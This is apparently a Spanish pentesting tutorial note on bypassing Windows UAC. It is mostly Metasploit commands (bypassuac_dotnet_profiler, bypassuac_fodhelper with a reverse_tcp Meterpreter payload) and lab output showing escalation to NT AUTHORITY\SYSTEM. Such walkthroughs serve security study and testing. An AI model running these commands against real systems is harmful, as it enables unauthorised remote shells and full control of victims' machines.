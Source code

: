 # Elevación de privilegios (UAC Bypass)

El _`Bypass UAC (User Account Control)`_ en Windows es una técnica que permite a un atacante ejecutar código con privilegios elevados (`administrador`) sin necesidad de mostrar el cuadro de diálogo de `UAC`, el cual normalmente solicita aprobación del usuario para realizar acciones sensibles.

En este tipo de vulnerabilidad hay muchisimas formas de `Bypassear` esto, pero los fundamentos de este `Bypass` es que se puede hacer esta vulnerabilidad ya que cuando sale el recuadro de dialogo del `UAC` de `Windows` lo esta cogiendo de una ruta en los registros del mismo la cual se puede modificar sin necesidad de ser administradores, por lo que nosotros podremos modificar eso por una `powershell` y cuando se ejecute ese dialogo nos va a ejecutar la `powershell`.

Por lo que vamos a utilizar modulos como `metasploit` en los cuales ya tienen este tipo de tecnicas de forma automatica y vamos a utilizar contra la maquina `windows` el `exploit` que el `suggester` nos recomendo anteriormente.

```shell
msfconsole -q
```

Una vez que tengamos la maquina comprometida mediante el `web delivery` teniendo una shell, la dejaremos en segundo plano con `background`, haremos `back` y pondremos lo siguiente.

```shell
use exploit/windows/local/bypassuac_dotnet_profiler
```

Y lo configuramos todo:

```shell
set session 1
set LHOST <IP>
set LPORT 4455
exploit
```

Y esto lo que nos dara sera una shell con `meterpreter` de forma que seremos el mismo usuario, pero con privilegios de administrador.

Si ese anterior fallara, tendremos mas para `bypassear` el `UAC` como por ejemplo:

```shell
use exploit/windows/local/bypassuac_fodhelper
```

Configuracion:

```shell
set session 1
set LHOST <IP>
set LPORT 7777
set target 1
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.16.139:7777 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\system32\cmd.exe /c C:\Windows\System32\fodhelper.exe
[*] Sending stage (201798 bytes) to 192.168.16.138
[*] Cleaining up registry keys ...
[*] Meterpreter session 2 opened (192.168.16.139:7777 -> 192.168.16.138:49676) at 2024-11-21 07:04:27 -0500

meterpreter >
```

Y si hacemos un `getuid` veremos que seguimos siendo ese mismo usuario:

```
Server username: DESKTOP-EALA4JN\d1se0
```

Pero si hacemos el siguiente comando para que nos escale privilegios de forma automatica, veremos lo siguiente:

```
getsystem
```

Info:

```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

Y si ahora hacemos un `getuid`, ahora si que veremos que somos administradores:

```
Server username: NT AUTHORITY\SYSTEM
```
